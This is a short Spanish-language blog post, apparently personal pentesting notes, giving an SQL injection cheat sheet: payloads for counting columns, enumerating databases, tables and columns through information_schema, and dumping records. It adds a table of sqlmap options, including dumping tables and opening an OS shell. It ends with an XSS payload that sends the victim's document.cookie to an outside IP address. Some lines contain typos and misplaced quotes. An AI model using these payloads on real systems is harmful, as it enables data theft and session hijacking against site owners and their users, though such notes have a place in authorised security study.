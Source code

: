 ```yaml
---
layout: post
title: SQLi - CheetSheat
tags: [Linux,CheetSheat]
description: SQLi - CheetSheat
---
```


## Error Based

### Averiguar la cantidad de columnas

```
' ORDER BY 1-- -
' ORDER BY 2-- -
" ORDER BY 3-- -
" ORDER BY 4-- -
...
```

```
@@version
database()
load_file('<file>')
user()
```

### Enumerar Base de Datos

```
SELECT schema_name FROM information_schema.schemata
SELECT count(*) FROM information_schema.schemata
SELECT schema_name FROM information_schema.schemata LIMIT 0,1
SELECT schema_name FROM information_schema.schemata LIMIT 1,1
SELECT schema_name FROM information_schema.schemata LIMIT 2,1
```

### Enumerar tablas

```
SELECT count(*) FROM information_schema.tables WHERE table_schema='<database>'
SELECT table_name FROM information_schema.tables WHERE table_schema='<database>' LIMIT 0,1
SELECT table_name FROM information_schema.tables WHERE table_schema='<database>' LIMIT 1,1
SELECT table_name FROM information_schema.tables WHERE table_schema='<database>' LIMIT 2,1
```

### Enumerar columnas

```
SELECT count(*) FROM information_schema.columns WHERE table_name="<table>" AND table_schema="<database>"
SELECT column_name FROM information_schema.columns WHERE table_name="<table>" AND table_schema="<database> LIMIT 0,1"
SELECT column_name FROM information_schema.columns WHERE table_name="<table>" AND table_schema="<database> LIMIT 1,1"
SELECT column_name FROM information_schema.columns WHERE table_name="<table>" AND table_schema="<database> LIMIT 2,1"
```

### Extraer registros

```
SELECT x,x,x,coun(*),x FROM <database>.<table>
SELECT x,x,x,concat(<column>,0x3a,<column>,0x3a,<column>),x FROM <database>.<table>
```

----

## Blin SQL


## SqlMap

| argumento      | descripción |
|----------------|
| --url          | url |
| -p             | parámetro vulnerable |
| --cookie       | cookie de sesión |
|  --level       | nivel |
| --risk         | riesgo |
| --dbms         | motor de base de datos |
| --threads      | cantidad de hilos |
| --batch        | valores por defecto |
| --users        | extraer nombres de usuarios |
| --current-db   | DDBB que está utilizando |
| --current-user | usuario que está logueado |
| --dbs          | enumerar base de datos |
| -D             | seleccionar base de datos |
| --tables       | mostrar las tablas de la DDBB seleccionada |
| -T             | seleccionar tabla |
| --columns      | mostrar las columnas de la tabla seleccionada |
| --dump         | obtener información de la tabla |
| --os-shell     | obtenre shell |

```

```


## XSS

```
<script>document.write('<img src="http://10.9.102.237:8000/arc.jpg?cookie='+document.cookie+'">')</script>
```
